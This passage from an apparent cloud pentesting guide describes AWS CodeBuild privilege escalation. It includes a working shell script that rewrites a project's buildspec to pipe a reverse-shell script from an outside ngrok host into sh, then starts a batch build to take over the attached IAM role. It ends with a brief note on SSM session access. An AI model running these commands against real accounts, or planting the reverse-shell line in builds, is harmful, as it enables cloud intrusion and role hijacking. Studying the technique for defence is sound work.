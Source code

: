 ```sh
```
{% endcode %}
{% endtab %}

{% tab title="StartBuildBatch" %}
{% code overflow="wrap" %}
```sh
REV_PATH="/tmp/codebuild_pwn.json"

# Get rev shell
REV="curl https://reverse-shell.sh/4.tcp.eu.ngrok.io:11125 | sh"

# You need to indicate the name of the project you want to modify
JSON="{
    \"name\": \"codebuild_lab_3_project\",
    \"source\": {
        \"type\": \"NO_SOURCE\",
        \"buildspec\": \"version: 0.2\\\\n\\\\nbatch:\\\\n  fast-fail: false\\\\n  build-list:\\\\n    - identifier: build1\\\\n      env:\\\\n        variables:\\\\n          BUILD_ID: build1\\\\n      buildspec: |\\\\n        version: 0.2\\\\n        env:\\\\n          shell: sh\\\\n        phases:\\\\n          build:\\\\n            commands:\\\\n              - curl https://reverse-shell.sh/4.tcp.eu.ngrok.io:11125 | sh\\\\n      ignore-failure: true\\\\n\"
    },
    \"artifacts\": {
        \"type\": \"NO_ARTIFACTS\"
    },
    \"environment\": {
        \"type\": \"LINUX_CONTAINER\",
        \"image\": \"public.ecr.aws/h0h9t7p1/alpine-bash-curl-jq:latest\",
        \"computeType\": \"BUILD_GENERAL1_SMALL\",
        \"imagePullCredentialsType\": \"CODEBUILD\"
    }
}"

printf "$JSON" > $REV_PATH

# Note how it's used a image from AWS public ECR instead from dockerhub as dockerhub rate limits CodeBuild!

aws codebuild update-project --cli-input-json file://$REV_PATH

aws codebuild start-build-batch --project-name codebuild-demo-project
```
{% endcode %}
{% endtab %}
{% endtabs %}

**Potential Impact:** Direct privesc to attached AWS Codebuild roles.

### SSM

Having **enough permissions to start a ssm session** it's possible to get **inside a Codebuild project** being built.
